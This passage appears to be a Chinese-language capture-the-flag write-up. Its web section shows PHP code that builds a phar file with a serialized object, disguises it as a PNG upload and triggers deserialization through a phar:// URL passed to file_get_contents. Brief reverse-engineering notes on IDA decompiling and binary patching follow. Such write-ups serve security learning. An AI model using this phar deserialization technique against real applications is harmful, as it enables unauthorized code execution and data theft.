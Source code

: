 其实正确做法是F12看到源码中有一段注释内含“机器人”字样想到访问robots.txt

进行代码审计，发现GET了一个`$interesting`变量，并将其作为文件路径，将文件内容读入到`$file`中。由于`file_get_contents()`的返回值不是空就是字符串，我们无法在返回值上做手脚。考虑搞一个在访问时触发的木马。

考虑构造一个`phar`文件，在读取时利用`phar://`伪协议直接执行其中代码。参照`0x04 最好的语言？`题，我们需要构造一个Flag类型对象并赋值好初始值写入`phar`中，利用`__destruct()`函数输出`flag`。

谷歌一个`phar`文件构造代码，直接进行一个使用：

```php
<?php
    class Flag {
    public $a;
    protected $b;
    private $c;

    function __construct() {
        $this->a = '1';
        $this->b = '2';
        $this->c = '3';
    }
    }
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $o = new Flag();
    $phar->setMetadata($o);
    $phar->stopBuffering();
?>
```

执行得到phar.phar文件，后缀名改为`png`上传。

访问`/s3cr3t.php?interesting=phar://./upload/.../...png`，发现页面上出现了flag，好神奇哦。

## Reverse

### 	0x01 Hello Reverse

​		使用ida反编译后即可看到flag

### 	0x02 Where Are U

​		使用ida反编译后到处找找就有了

### 	0x03 吸/吸嘉嘉

​		反编译后发现程序将flag的每一位字母按位非(~)后与code数组比对。找到code数组，将每一位按位非之后就可以得到答案了。

​		我是手算的，我可能是弱智。

### 0x04 抽奖得flag

​		这个题按理说是要使用动态调试，但是不难发现程序中有在满足某个条件时调用一个程序输出flag。直接利用IDA的patch program功能在程序最开头直接调用该程序，运行得到flag。
